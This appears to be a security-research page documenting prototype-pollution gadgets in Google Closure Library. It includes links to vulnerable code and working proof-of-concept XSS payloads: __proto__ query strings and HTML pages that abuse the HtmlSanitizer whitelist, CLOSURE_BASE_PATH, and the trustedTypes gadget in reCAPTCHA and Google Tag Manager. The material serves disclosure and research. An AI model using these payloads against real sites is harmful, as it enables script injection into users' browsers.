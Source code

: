 ## Google Closure

Closure Library is a powerful, low-level JavaScript library designed for building complex and scalable web applications. 
It is used by many Google web applications, such as Google Search, Gmail, Google Docs, Google+, Google Maps, and others.

### URL

https://github.com/google/closure-library

### JS Fingerprint
```
return (typeof goog !== 'undefined' && typeof goog.basePath !== 'undefined')
```

### Vulnerable code fragment
https://github.com/google/closure-library/blob/5a0002f16c91d41f5de3dc7bdcafe9b74b1b4fa0/closure/goog/html/sanitizer/attributewhitelist.js#L22-L107
```js
goog.html.sanitizer.AttributeWhitelist = {
  '* ARIA-CHECKED': true,
  '* ARIA-COLCOUNT': true,
  '* ARIA-COLINDEX': true,
  '* ARIA-CONTROLS': true,
  '* ARIA-DESCRIBEDBY': tru
...
}
```
https://github.com/google/closure-library/blob/88f3857a26ec5ead36b4b49cb6c3f011cc534971/closure/goog/base.js#L2210-L2214
```js
  goog.findBasePath_ = function() {
    if (goog.global.CLOSURE_BASE_PATH != undefined &&
        // Anti DOM-clobbering runtime check (b/37736576).
        typeof goog.global.CLOSURE_BASE_PATH === 'string') {
      goog.basePath = goog.global.CLOSURE_BASE_PATH;
```
https://github.com/google/closure-library/blob/96a4b269b9ad15c008a392e5b59fe66fcf66b526/closure/goog/html/safehtml.js#L1066-L1067
```js
SafeHtml.EMPTY = new SafeHtml(
    (goog.global.trustedTypes && goog.global.trustedTypes.emptyHTML) || '',
```


### PoC

#### AttributeWhitelist

```
?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1
```

```html
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);
          
  document.body.append(node);
</script>
```

#### CLOSURE_BASE_PATH

```
?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//
```

```html
<script>
  Object.prototype.CLOSURE_BASE_PATH = 'data:,alert(1)//';
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
```

#### Google reCAPTCHA

**The vulnerability can be exploited in browsers that do not support Trusted Types. For example, FireFox.**

```
?__proto__[trustedTypes]=x&__proto__[emptyHTML]=<img/src/onerror%3dalert(1)>
```

```html
<script>
    Object.prototype.trustedTypes = "x";
    Object.prototype.emptyHTML = "<img/src/onerror=alert(1)>";
</script>
<script src="https://www.google.com/recaptcha/api.js"></script>
<div class="g-recaptcha" data-sitekey="your-site-key"/>
```

#### Google Tag Manager + Custom HTML Tag

**The vulnerability can be exploited in browsers that do not support Trusted Types. For example, FireFox.**

```
?__proto__[trustedTypes]=x&__proto__[emptyHTML]=<img/src/onerror%3dalert(1)>
```

```html
<script>
    Object.prototype.trustedTypes = "x";
    Object.prototype.emptyHTML = "<img/src/onerror=alert(1)>";
</script>
<script>(function(w,d,s,l,i){w[l]=w[l]||[];w[l].push({'gtm.start':
new Date().getTime(),event:'gtm.js'});var f=d.getElementsByTagName(s)[0],
j=d.createElement(s),dl=l!='dataLayer'?'&l='+l:'';j.async=true;j.src=
'https://www.googletagmanager.com/gtm.js?id='+i+dl;f.parentNode.insertBefore(j,f);
})(window,document,'script','dataLayer','GTM-WSPXXTG');</script>
```